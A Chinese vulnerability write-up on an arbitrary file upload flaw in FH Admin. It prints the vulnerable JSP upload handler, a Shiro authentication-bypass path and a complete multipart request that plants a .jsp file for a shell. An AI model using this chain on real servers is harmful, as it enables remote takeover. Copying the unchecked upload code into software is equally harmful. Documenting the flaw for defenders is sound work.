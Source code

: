 FH Admin 任意文件上传漏洞
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`plugins/uploadify/uploadFile.jsp`，即在项目下面存在文件夹plugins，其下面存在文件夹uploadify，而uploadify文件夹下面同时存在uploadFile.jsp文件；那么该项目非常有可能存在漏洞。

`uploadFile.jsp`文件内容如下：

    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
    <%@ page import="java.io.*, java.util.*, org.apache.commons.fileupload.*, java.util.*" %>
    <%@ page import="org.apache.commons.fileupload.disk.*, org.apache.commons.fileupload.servlet.*" %>
    <%!
        
        public void upload(HttpServletRequest request, HttpServletResponse response)throws ServletException, IOException {
            String savePath = this.getServletConfig().getServletContext().getRealPath("");
            savePath = savePath + request.getParameter("uploadPath");
            File f1 = new File(savePath);
            //这里接收了uploadPath的值  System.out.println(request.getParameter("uploadPath"));
            if (!f1.exists()) {
                f1.mkdirs();
            }
            DiskFileItemFactory fac = new DiskFileItemFactory();
            ServletFileUpload upload = new ServletFileUpload(fac);
            upload.setHeaderEncoding("utf-8");
            List fileList = null;
            try {
                fileList = upload.parseRequest(request);
            } catch (FileUploadException ex) {
                return;
            }
            
            
            String fileNmae = request.getParameter("fileNmae"); 
            Iterator<FileItem> it = fileList.iterator();
            String name = "";
            String extName = "";
            while (it.hasNext()) {
                FileItem item = it.next();
                if (!item.isFormField()) {
                    name = item.getName();
                    long size = item.getSize();
                    String type = item.getContentType();
                    //System.out.println(size + " " + type);
                    if (name == null || name.trim().equals("")) {
                        continue;
                    }
        
                    // 扩展名格式：
                    if (name.lastIndexOf(".") >= 0) {
                        extName = name.substring(name.lastIndexOf("."));
                    }
        
                    File file = null;
                    if(null != fileNmae && !"".equals(fileNmae)){
                        file = new File(savePath + fileNmae);
                    }else{
                        do {
                            if(null != fileNmae && !"".equals(fileNmae)){
                                file = new File(savePath + fileNmae);
                            }else{
                                name = new java.text.SimpleDateFormat("yyyyMMddhhmmss").format(new Date());   //获取当前日期
                                name = name + (int)(Math.random()*90000+10000);
                                file = new File(savePath + name + extName);
                            }
                        } while (file.exists());
                    }
        
                    File saveFile = new File(savePath + name + extName);
                    try {
                        item.write(saveFile);
                    } catch (Exception e) {
                        e.printStackTrace();
                    }
                }
            }
            response.getWriter().print((name.trim() + extName.trim()).trim());
        }
    %>
    <%
        upload(request, response);
    %>

尝试访问此文件，提示未登录302跳转

![3.png](./.resource/FHAdmin任意文件上传漏洞/media/rId24.png)

由于该框架使用到了shiro，如若shiro版本过低会导致shiro身份绕过漏洞，结合文库shiro部分的身份认证绕过利用即可getshell

我们使用

    /;a/plugins/uploadify/uploadFile.jsp 代码不唯一！！！具体请参考文库shiro权限绕过部分文章！！！

来绕过shiro的权限控制，可以注意到状态码为200

![4.png](./.resource/FHAdmin任意文件上传漏洞/media/rId25.png)

结合之前给出的代码需要两个参数构造上传包

![5.png](./.resource/FHAdmin任意文件上传漏洞/media/rId26.png)

发现上传成功，但是居然找不到文件。

![6.png](./.resource/FHAdmin任意文件上传漏洞/media/rId27.png)

仔细看了一下才知道request.getParameter(\"uploadPath\");解析不了multipart里的参数，再次构造上传包

    POST /;a/plugins/uploadify/uploadFile.jsp?uploadPath=/plugins/uploadify/ HTTP/1.1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQDeBiVqfe6p3FMnJ


    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ
    Content-Disposition: form-data; name="imgFile"; filename="2204249.jsp"
    Content-Type: image/jpeg

    test
    ------WebKitFormBoundaryQDeBiVqfe6p3FMnJ--

成功shell

参考链接
--------

> https://xz.aliyun.com/t/8311
